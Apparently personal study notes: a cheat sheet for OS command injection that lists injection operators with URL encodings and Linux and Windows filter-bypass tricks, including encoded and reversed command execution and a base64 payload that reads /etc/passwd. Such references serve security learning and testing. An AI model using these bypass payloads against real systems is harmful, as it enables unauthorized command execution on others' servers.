 # Command Injection Notes

If some type of functionality is given with input we can enter try to abuse, like in the case of a website with a ping checker.

## Cheat sheets

Injection Operators
|Injection Operator|	Injection Character |	URL-Encoded Character 	|Executed Command|
|:----|:----|:----|:----|
|Semicolon |	; 	|%3b |	Both|
|New Line| 	\n |	%0a 	|Both|
|Background| 	& 	|%26 	|Both (second output generally shown first)|
|Pipe 	| 	%7c 	|Both |(only second output is shown)|
|AND 	|&& 	|%26%26 	|Both (only if first succeeds)|
|OR 	|\|\| |	%7c%7c| 	Second (only if first fails)|
|Sub-Shell |	`` 	|%60%60 	|Both (Linux-only)|
|Sub-Shell| 	$() 	|%24%28%29 	|Both (Linux-only)|

## Linux
|Code| 	Description|
|:----|:----|
|printenv 	|Can be used to view all environment variables|

### Spaces 	
|Code| 	Description|
|:----|:----|
|%09 	|Using tabs instead of spaces|
|${IFS} 	|Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $())|
|{ls,-la} 	|Commas will be replaced with spaces|

### Other Characters 	
|Code| 	Description|
|:----|:----|
|${PATH:0:1} |	Will be replaced with / |
|${LS_COLORS:10:1} 	|Will be replaced with ;|
|$(tr '!-}' '"-~'<<<[) 	|Shift character by one ([ -> \)|

### Blacklisted Command Bypass

### Character Insertion 	
|Code| 	Description|
|:----|:----|
|' or " 	|Total must be even|
|$@ or \ 	|Linux only|

### Case Manipulation 	
|Code| 	Description|
|:----|:----|
|$(tr "[A-Z]" "[a-z]"<<<"WhOaMi") |	Execute command regardless of cases|
|$(a="WhOaMi";printf %s "${a,,}") 	|Another variation of the technique|

### Reversed Commands 	
|Code| 	Description|
|:----|:----|
|echo 'whoami' \| rev |	Reverse a string|
|$(rev<<<'imaohw') 	|Execute reversed command|

### Encoded Commands 	
|Code| 	Description|
|:----|:----|
|echo -n 'cat /etc/passwd \| grep 33' \| base64 	|Encode a string with base64|
|bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)| 	Execute b64 encoded string|

## Windows
### Filtered Character Bypass
|Code| 	Description|
|:----|:----|
|Get-ChildItem Env: 	|Can be used to view all environment variables - (PowerShell)|

### Spaces 	
|Code| 	Description|
|:----|:----|
|%09 	|Using tabs instead of spaces|
|%PROGRAMFILES:~10,-5% |	Will be replaced with a space - (CMD)|
|$env:PROGRAMFILES[10] |	Will be replaced with a space - (PowerShell)|

### Other Characters 	
|Code| 	Description|
|:----|:----|
|%HOMEPATH:~0,-17% 	|Will be replaced with \ - (CMD)|
|$env:HOMEPATH[0] |	Will be replaced with \ - (PowerShell)|

### Blacklisted Command Bypass

### Character Insertion 	
|Code| 	Description|
|:----|:----|
|' or " 	|Total must be even|
|^ 	|Windows only (CMD)|

### Case Manipulation 
|Code| 	Description|
|:----|:----|
|WhoAmi 	|Simply send the character with odd cases|

### Reversed Commands 	
|Code| 	Description|
|:----|:----|
|"whoami"[-1..-20] -join '' |	Reverse a string|
|iex "$('imaohw'[-1..-20] -join '')" 	|Execute reversed command|

### Encoded Commands 	
|Code| 	Description|
|:----|:----|
|[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))| 	Encode a string with base64|
|iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))" 	|Execute b64 encoded string|
